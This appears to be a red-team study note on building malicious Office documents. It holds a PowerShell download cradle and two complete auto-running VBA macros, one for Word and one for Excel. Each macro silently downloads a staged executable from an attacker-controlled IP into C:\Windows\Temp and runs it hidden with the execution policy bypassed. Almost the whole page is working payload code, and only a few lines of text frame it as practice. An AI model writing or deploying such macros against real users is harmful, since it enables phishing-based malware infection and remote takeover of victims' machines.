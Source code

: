 ![[Pasted image 20230906140945.png]]
## 3.2.2 PowerShell + VBA

Using the PowerShell command to transfer and execute a staged payload - PowerShell Download Cradle

```powershell
Invoke-WebRequest -Uri 'http://IP/staged_shell.exe' -OutFile 'C:\Windows\Temp\staged_shell.exe'
(New-Object System.Net.WebClient).DownloadFile('http://IP/staged_shell.exe','C:\Windows\Temp\staged_shell.exe')
```

Complete VBA macro + Powershell

```vb
Sub Document_Open()
    ExecutePayload
End Sub

Sub AutoOpen()
    ExecutePayload
End Sub

Sub ExecutePayload()
    
    ' PowerShell command to trasfer the payload
    Dim psScript As String
    psScript = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile (New-Object System.Net.WebClient).DownloadFile('http://10.10.108.34/staged_shell.exe','C:\Windows\Temp\staged_shell.exe');Start-Process 'C:\Windows\Temp\staged_shell.exe'"
    
    ' Execute the PowerShell script hidden
    CreateObject("Wscript.Shell").Run psScript, 0

End Sub
```

#### Practice: MS Excel

There are some differences between the different uses of VBA in Office applications. For example, Document_Open() is called Workbook_Open() in Excel.

```vb
Private Sub Workbook_Open()
    myMacro
End Sub

Sub Auto_Open()
    myMacro
End Sub

Sub myMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.101.101.63/uploads/msfstaged.exe','C:\Windows\Temp\payload.exe')"
    Shell str, vbHide
    Dim exePath As String
	exePath = "C:\Windows\Temp\payload.exe"
    Application.Wait (Now + TimeValue("0:00:03"))
    Shell exePath, vbHide
End Sub
```
